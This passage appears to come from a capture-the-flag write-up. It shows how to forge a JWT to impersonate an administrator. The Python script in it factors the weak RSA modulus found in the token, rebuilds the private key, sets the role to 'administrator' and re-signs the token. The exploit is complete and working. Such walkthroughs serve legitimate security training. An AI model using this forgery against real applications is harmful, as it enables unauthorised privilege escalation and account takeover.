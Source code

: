 What we want to do now is to modify the `JWT` token to impersonate the `administrator`.  

With the information given, we craft a `python` script that takes the original `JWT` token from the user we are logged to and change it by injecting the newly created `JWT` token.   

```python
import base64
import json
import jwt
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy

jwt_token = "JWT_TOKEN_OF_THE_USER"

def apply_padding(encoded_str):
    while len(encoded_str) % 4 != 0:
        encoded_str += '='
    return encoded_str

def decode_base64_url(input_str):
    input_str = apply_padding(input_str)
    input_str = input_str.replace('-', '+').replace('_', '/')
    return base64.b64decode(input_str)

# Parse and decode the JWT payload
decoded_payload = json.loads(decode_base64_url(jwt_token.split(".")[1]).decode())
modulus_n = int(decoded_payload["jwk"]['n'])
prime_p, prime_q = list((sympy.factorint(modulus_n)).keys())
public_exp = 65537
totient_n = (prime_p - 1) * (prime_q - 1)
private_exp = pow(public_exp, -1, totient_n)
rsa_key_data = {'n': modulus_n, 'e': public_exp, 'd': private_exp, 'p': prime_p, 'q': prime_q}
rsa_key = RSA.construct((rsa_key_data['n'], rsa_key_data['e'], rsa_key_data['d'], rsa_key_data['p'], rsa_key_data['q']))
pem_private_key = rsa_key.export_key()

# Load private key
loaded_private_key = serialization.load_pem_private_key(
    pem_private_key,
    password=None,
    backend=default_backend()
)
rsa_public_key = loaded_private_key.public_key()

# Decode JWT, modify role, and re-encode
decoded_jwt_data = jwt.decode(jwt_token, rsa_public_key, algorithms=["RS256"])
decoded_jwt_data["role"] = "administrator"

# Generate new JWT
updated_token = jwt.encode(decoded_jwt_data, loaded_private_key, algorithm="RS256")
print(updated_token)
```
